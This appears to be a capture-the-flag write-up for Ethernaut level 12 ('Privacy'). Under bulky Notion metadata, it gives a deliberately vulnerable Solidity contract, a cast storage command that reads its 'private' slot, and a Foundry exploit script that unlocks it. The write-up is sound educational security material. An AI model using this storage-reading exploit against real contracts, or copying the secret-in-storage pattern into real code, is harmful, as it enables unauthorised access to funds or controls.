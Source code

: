 ```yaml
---
title: "Privacy"
date: "2024-02-10"
lastmod: "2024-02-16T09:12:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Elevator-59c41c694afa45c68e603000da840a2e"
weight: 13
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/12"
next: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0141c599-3182-4d74-a831-1099eb338d5d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-16T09:12:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Elevator-59c41c694afa45c68e603000da840a2e"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator-59c41c694afa45c68e603000da840a2e"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-16T09:12:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 13
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/12"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Privacy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy"
          href: null
  url: "https://www.notion.so/Privacy-0141c59931824d74a8311099eb338d5d"
  public_url: null
UPDATE_TIME: "2024-02-23T20:55:31.001Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Privacy
weight: 13
type: docs
prev: elevator
next: gatekeeper-one


[Level12](https://ethernaut.openzeppelin.com/level/12) - ⭐⭐⭐


---


The creator of this contract was careful enough to protect the sensitive areas of its storage.


Unlock this contract to beat the level.


Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it
is presenting problems. Advanced gameplay could involve using remix, or
your own web3 provider.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(block.timestamp); // slot 2
  bytes32[3] private data; // [slot3, slot4, slot5]

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```


for more details on storage layout read this article:


[bookmark](https://docs.alchemy.com/docs/smart-contract-storage-layout)


So, the `_key` is stored at slot 5 since it is `data[2]`:


```solidity
➜  ~/repos/ethernaut (main) cast storage --rpc-url $SEPOLIA_RPC_URL $INSTANCE_12 5
0xe32410e9fbc1f17b0f1d9a6ed141317f11c4b2a5d38981dfa025aacf8b708d7d
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Privacy} from "../src/12.sol";


contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_12");

        vm.startBroadcast(deployerPrivateKey);

        Privacy privacy = Privacy(addr);
        console.log('isLocked : %s', privacy.locked());
				
				// vm.load() allows us to read arbitrary storage slot
        bytes16 key = bytes16(vm.load(address(privacy), bytes32(uint(5))));
        privacy.unlock(key);
        
        console.log('isLocked : %s', privacy.locked());

        vm.stopBroadcast();

    }
}
```


Nothing
 in the ethereum blockchain is private. The keyword private is merely an
 artificial construct of the Solidity language. Web3's `getStorageAt(...)`
 can be used to read anything from storage. It can be tricky to read 
what you want though, since several optimization rules and techniques 
are used to compact the storage as much as possible.


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)


More info:


[bookmark](https://medium.com/@0xZorz/how-to-read-dynamic-arrays-directly-from-storage-using-foundry-bdf5a104b8f6)

